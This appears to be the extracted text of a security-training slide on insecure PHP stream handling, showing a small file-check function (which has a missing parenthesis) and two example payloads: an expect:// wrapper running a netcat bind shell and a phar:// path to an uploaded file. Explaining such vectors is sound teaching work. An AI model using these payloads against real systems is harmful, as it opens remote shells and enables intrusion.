

<?php
function check_file($fname) {
    if (file_exists($fname) {
        return true;
    } else {
        return false;
    }
}
?>
Insecure stream handling

PHP supports stream wrappers that can be used for a multitude of things, such as RCE via:

expect://nc -e /bin/sh –lp 4444

Or

phar://tmp/uploaded.file.txt